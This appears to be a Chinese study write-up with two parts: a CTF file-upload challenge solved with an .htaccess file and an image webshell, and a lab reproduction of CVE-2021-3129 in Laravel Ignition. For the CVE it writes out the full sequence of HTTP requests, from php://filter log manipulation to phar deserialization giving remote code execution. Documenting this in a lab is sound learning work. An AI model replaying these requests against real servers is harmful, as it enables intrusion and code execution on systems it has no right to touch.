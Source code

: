# 2024-2-14

## 1

![1](images/1.png)

首先打开网址能看出来是文件上传类漏洞

![2](images/2.png)

随便上传个图片发现上传成功，所以我们可以上传图片来进行攻击![3](images/3.png)

我们上传一个htaccess文件，来使php文件能够被执行

![5](images/5.png)

然后上传我们的图片马，并修改文件类型即可

![6](images/6.png)

最后使用蚁剑链接获得flag

## CVE-2021-3129

该漏洞是Laravel开发框架的一个漏洞，该开发框架是基于PHP实现的，但当Laravel开启了Debug模式时，由于Laravel自带的Ignition 组件对file_get_contents()和file_put_contents()函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意Log文件等方式触发Phar反序列化，最终造成远程代码执行。

**漏洞范围**

- Laravel < 8.4.3
- facade ignition < 2.5.2

![7](images/7.png)

git clone https://github.com/SNCKER/CVE-2021-3129下载靶场

(2)使用docker-compose搭建环境

![8](images/8.png)

![9](images/9.png)

![10](images/10.png)

使用 phpggc工具生成一条laravel中存在的反序列化利用POC

![12](images/12.png)

(2)发送如下数据包，将Laravel的原日志文件laravel.log清空：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 328

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
![13](images\13.png)

(3)发送如下数据包，给Log增加一次前缀，用于对齐：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 163

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "AA"
  }
}

![14](images\14.png)

(4)将之前生成的编码后的POC作为viewFile的值，发送数据包：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 5058

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=......2B=00=57=00=61=00=63=00=4E=00=67=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00a"
  }
}
![15](images\15.png)

(5)发送如下数据包，清空对log文件中的干扰字符，只留下POC：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 299

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
![在这里插入图片描述](images\16.png)



(6) 使用phar://进行反序列化，执行任意代码：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 210

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "phar:///var/www/storage/logs/laravel.log/test.txt"
  }
}
![17](images/17.png)

看到phpinfo漏洞利用成功
